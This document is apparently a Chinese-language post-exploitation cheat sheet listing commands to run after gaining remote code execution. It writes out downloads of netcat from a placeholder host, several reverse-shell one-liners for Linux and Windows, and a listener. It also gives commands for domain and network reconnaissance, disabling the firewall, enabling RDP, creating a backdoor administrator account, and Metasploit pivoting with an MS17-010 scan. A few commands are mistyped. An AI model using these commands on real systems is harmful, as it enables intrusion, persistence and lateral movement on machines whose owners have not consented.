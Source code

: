 ## exp打到rce后序工作

```
whoiam
```

## 尝试第一次反弹shell

### Vul机器

#### 下载工具
**Linux**
```
wget http://fuck/nc 
```
**Window**
```aidl
certutil -urlcache -split -f http://fuck/nc.exe
```

#### 运行客户端
**Linux**
```
Linux | rm /tmp/f;mkfifo /tmp/f;cat /tmp/f | /bin/sh -i 2>&1 |nc IP 4444 >/tmp/f 
bash -i >& /dev/tcp/IP/4444 0>&1

```
**Window**
```aidl
nc ip 4444 -e c:\windows\system32\cmd.exe
```

### 反弹服务器
```
nc -lvp 4444
```

### 搜集信息
**Windows**
```aidl
ipconfig /all :查看IP（需要dns搜索列表，可能是域地址，如果是域名可以nslookup 以确定主域服务器IP。
systeminfo :操作系统信息
wmic service list brief :服务列表
tasklist :进程列表
wmic process where name="java.exe"  :显示指定进程带路径
schtasks  /query  /fo  LIST /v :计划任务
net user :用户列表
query user || qwinsta  :查在线用户
net localgroup administrators :本地管理员
netstat –ano :端口信息
netsh firewall show config :防火墙配置
net config workstation :域登录状态
net view /domain 或 net view /domain:XX :域查询
net time /domain 或 net group "Domain Controllers" /domain :域定位信息
nslookup -type=SRV \_ldap.\_tcp :查域控
net group /domain 或 net group "Domain Admins" /domain :域用户
for /L %I in (1,1,254) DO @ping -w 1 -n 1 192.168.174.%I \| findstr "TTL=" :内网C段探测
```
**Linux**
```aidl
for i in {1..254}; do ping 192.168.1.$i -c 1 -w 1|grep ttl; done :内网C探测

```

### Windows特殊工作
#### 判断3389是否开启
```
REG QUERY "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp" /V PortNumber
```

#### 关闭防火墙：
```
Windows server 2003系统及以前版本，命令如下：
netsh firewall set opmode disable

Windows server 2003之后系统版本，命令如下：
netsh advfirewall set allprofiles state off
```
#### 开端口
在 Windows Server 2003 中开启 3389 端口：
```
wmic RDTOGGLE WHERE ServerName='%COMPUTERNAME%' call SetAllowTSConnections 1
```
在 Windows Server 2008 和 Windows Server 2012 中开启 3389 端口：
```
wmic /namespace:\\root\cimv2\terminalservices path win32_terminalservicesetting where (__CLASS !="") call setallowtsconnections 1
wmic /namespace:\\root\cimv2\terminalservices path win32_tsgeneralsetting where (TerminalName='RDP-Tcp') call setuserauthenticationrequired 1
reg add "HKLM\SYSTEM\CURRENT\CONTROLSET\CONTROL\TERMINAL SERVER" /v fSingleSessionPerUser /t REG_DWORD /d 0 /f
```

#### 加用户
```
net user adminxyz 123456 /add 
```
#### 提权
```
net localgroup administrators adminxyz /add
```
#### 清理
```
net user 用户 /del
```

### 流量转发
#### reg代理
msf作为客户端连reg代理
```
set proxies socks5:127.0.0.1:8080
```

#### meterpreter代理转发
``` 扫描ms17010
use exploit/multi/handler
set payload linux/x86/meterpreter/reverse_tcp
exploit 
meterpreter > run autoroute -s 110.20.100.1/24
meterpreter > background
 
use auxiliary/scanner/smb/smb_ms17_010
set RHOSTS 10.20.100.201
exploit
```

## 持久化
### 上传cs/msf的shell
略
#### msf反弹
略
#### cs反弹持久化
略


### 基本操作
####  Windows查找复制文件
```
for /r "f:\" %i in (2020112601719755*) do @copy type hwhw2.txt > %i.txt
```

